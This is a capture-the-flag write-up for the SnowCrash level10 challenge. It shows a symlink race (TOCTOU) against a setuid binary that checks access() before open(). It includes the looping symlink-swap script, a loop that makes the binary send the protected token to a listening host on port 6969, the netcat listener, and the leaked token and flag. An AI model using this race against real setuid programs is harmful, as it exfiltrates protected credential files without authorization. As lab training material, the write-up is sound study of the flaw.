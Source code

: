 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We have a binary setuid and a token file with no rights for us. 
Let's do some tests

```bash 
$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

The program seems to send a file to an address. 

```bash 
$ ./level10 token coucou
You don't have access to token
```

Okay let's ty with a file that we create

```bash 
$ echo 'salut' > /tmp/salut.txt
$ ./level10 /tmp/salut.txt level10
Connecting to level10:6969 .. Unable to connect to host level10
```

Okay no rights issue if it is our file. Let's look at the program with strings

```bash 
$  strings ./level10 
[...]
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
```



The executable checks if we have the rights to read the file with the access function then tries to send it to a server and display its content but we do not have the necessary rights on the token file.


We learned more about 'access' and discovered the existence of  <a href='https://www.vpnunlimited.com/fr/help/cybersecurity/toctou-attack?srsltid=AfmBOoqehRSAC5_nVvLKZinLmwohL_LoSgNh-VZIJcej7_UG0dA6EeZg'>TOCTOU attacks</a>, wich is pretty well explained in the manual. It is exactly like race conditions in philosphers. 


```bash 
NOTES
Warning:  Using  access()  to  check  if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to  manipulate  it.   For  this reason,  the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

What we want to do is that the access happens on a file where we have the rights and the open on the token.
To do so we will create in a loop a file, delete it and create a symbolic link to token. 

```bash 
$ cat symlink.sh
#!/bin/bash

while true; do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
done
```


Now in another program we will execute level10 excutable in a loop wih our file /tmp/link as an argument hoping that when the open is called it happens on the token. 


```bash 
$ cd /tmp
$ touch spam.sh
$ cat spam.sh
#!/bin/bash

while true; do
    /home/user/level10/level10 /tmp/link 192.168.1.75
done
```

We launch both our scripts in windows and we listen to the port 6969 (like we saw with strings that is where the output of level10 will be). 

```bash 
$ nc -lk 6969
[...]
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
^C
```


Let's try 
```bash
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
````


